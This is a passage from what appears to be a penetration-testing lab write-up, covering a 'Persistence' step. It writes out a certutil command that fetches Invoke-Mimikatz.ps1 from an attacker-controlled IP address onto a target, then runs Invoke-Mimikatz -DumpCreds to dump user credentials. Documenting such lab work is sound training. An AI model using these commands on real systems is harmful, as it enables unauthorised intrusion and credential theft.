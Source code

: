 ![](assets/Pasted%20image%2020250731134957.png)

### Persistence

We don't want to go over the same process again and again, so we establish peristence by dumping the creds of the user accounts on this machine.

First we transfer mimikatz from attacker to target

```bash
certutil.exe -f -urlcache -split 'http://192.168.45.204:8000/Invoke-Mimikatz.ps1'
```

Next we run `Invoke-Mimikatz -DumpCreds`

![](assets/Pasted%20image%2020250801151658.png)
